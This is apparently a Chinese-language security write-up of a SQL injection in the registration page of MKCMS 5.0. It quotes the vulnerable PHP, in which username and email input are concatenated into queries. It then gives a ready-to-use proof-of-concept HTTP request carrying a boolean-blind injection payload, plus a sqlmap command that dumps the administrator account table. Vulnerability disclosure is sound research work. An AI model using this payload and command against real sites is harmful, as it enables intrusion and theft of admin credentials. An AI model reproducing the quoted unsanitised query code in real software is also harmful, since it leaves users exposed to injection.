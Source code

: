 #### 漏洞详情： ####
漏洞出现在/ucenter/reg.php第7-19行:

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username'");
    if(mysql_fetch_array($query)){
    echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
    exit;
    }
    $result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
    if(mysql_fetch_array($result)){
    echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
    exit;
    }

注册用户名时$username参数传到后台后经过stripslashes()函数处理，而stripslashes()函数的作用是删除addslashes() 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题


POC：

    POST /ucenter/reg.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/ucenter/reg.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    Connection: close
    Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
    Upgrade-Insecure-Requests: 1
    
    name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=

![1](KCMS5.0前台sql注入/20190223150855-e20a10fc-3739-1.jpg)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：
    
    sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump
![2](KCMS5.0前台sql注入/20190223150915-edf05c14-3739-1.jpg)

### 参考链接 ###
https://xz.aliyun.com/t/4189
